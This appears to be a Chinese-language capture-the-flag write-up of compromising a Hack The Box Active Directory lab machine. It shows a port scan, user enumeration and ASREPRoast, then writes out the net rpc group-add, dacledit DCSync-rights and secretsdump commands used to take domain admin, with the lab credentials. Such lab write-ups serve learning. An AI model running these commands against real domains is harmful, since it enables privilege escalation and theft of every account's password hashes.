


## 00. 摘要

## 01. 信息收集

端口扫描

```bash
$ rustscan -u 5000 -a 10.129.24.190
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/home/lambermaybe/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.24.190:53
Open 10.129.24.190:88
Open 10.129.24.190:135
Open 10.129.24.190:139
Open 10.129.24.190:389
Open 10.129.24.190:464
Open 10.129.24.190:593
Open 10.129.24.190:445
Open 10.129.24.190:5985
Open 10.129.24.190:9389
Open 10.129.24.190:47001
Open 10.129.24.190:49666
Open 10.129.24.190:49664
Open 10.129.24.190:49665
Open 10.129.24.190:49667
Open 10.129.24.190:49671
Open 10.129.24.190:49677
Open 10.129.24.190:49676
Open 10.129.24.190:49698
Open 10.129.24.190:49681
```

## 02. 域用户权限

使用匿名账户以及Guest账户进行枚举，发现可以用匿名账户进行访问。但是没有共享目录的读取权限。

然后分别尝试 MS-SAMR 和 RID Cycling 进行域用户枚举，发现能够使用 MS-SAMR 枚举出域用户名。

然后使用 [ASREPRoast](/blog/ASREPRoast) 攻击拿到 `svc-alfresco` 账户。

然后使用 bloodhound 收集域信息



## 03. 域管理员权限

根据收集到的结果：



将指定用户添加到指定组

```bash
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S 10.129.24.190
```

验证是否加入成功

```bash
net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "htb.local"/"svc-alfresco"%"s3rvice" -S 10.129.24.190
```

给自己写入DCSync ACL

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' -dc-ip 10.129.24.190 'htb.local'/'svc-alfresco':'s3rvice'
```

DCSync攻击

```bash
secretsdump.py 'htb.local'/'svc-alfresco':'s3rvice'@'10.129.24.190' 
```



